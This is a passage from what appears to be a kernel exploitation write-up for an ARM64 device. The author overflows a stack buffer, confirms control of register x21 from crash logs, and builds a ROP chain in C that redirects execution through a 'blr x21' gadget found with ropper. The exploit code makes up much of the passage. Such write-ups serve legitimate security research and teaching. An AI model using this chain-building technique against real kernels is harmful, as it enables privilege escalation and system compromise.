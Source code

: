 ```cpp 
  *chain++ = (uint64_t)x21_overflow;  
  *chain++ = (uint64_t)x21_overflow;  

  write(fd, buf, 4096);  
  return 0;  
}
```

And now reviewing the crash logs, we can see that `x21` holds our `0x43`s

![x21_overflow](x21_overflowed.png)

I had been under the assumption that the stack was not executable, but I decided there was no harm putting this belief to the test. I used `ropper` to find a `blr x21` gadget and overwrote the saved `x30` with it. This would redirect code execution to the pointer stored in `x21`. 

```cpp
uint64_t kernel_base = 0xFFFFFFC000080000ULL;  
uint64_t blr_x21 = 0x000000000001e664ULL + kernel_base;

// ... previous code ...
  uint64_t *chain = (uint64_t *)&buf[1024];  
  *chain++ = (uint64_t)blr_x21;  
  *chain++ = (uint64_t)x21_overflow;  
  *chain++ = (uint64_t)x21_overflow;  
  *chain++ = (uint64_t)x21_overflow;  
  *chain++ = (uint64_t)x21_overflow;  
  *chain++ = (uint64_t)x21_overflow;  
  *chain++ = (uint64_t)x21_overflow;  
  *chain++ = (uint64_t)x21_overflow;  
  *chain++ = (uint64_t)x21_overflow;  
  *chain++ = (uint64_t)x21_overflow;  
  *chain++ = (uint64_t)x21_overflow;  
  *chain++ = (uint64_t)x21_overflow;  
  *chain++ = (uint64_t)x21_overflow;  
  *chain++ = (uint64_t)x21_overflow;  
  *chain++ = (uint64_t)x21_overflow;  
  *chain++ = (uint64_t)x21_overflow;  
  *chain++ = (uint64_t)x21_overflow;  
  *chain++ = (uint64_t)x21_overflow;  
  *chain++ = (uint64_t)x21_overflow;  
  *chain++ = (uint64_t)x21_overflow;  
  *chain++ = (uint64_t)x21_overflow;  
  *chain++ = (uint64_t)x21_overflow;  
  *chain++ = (uint64_t)x21_overflow;  
  *chain++ = (uint64_t)x21_overflow;  
  *chain++ = (uint64_t)x21_overflow;  

```

If the stack was executable, this address would then be deference and our junk data would be interpreted as code. It's at least seemed worth a shot...
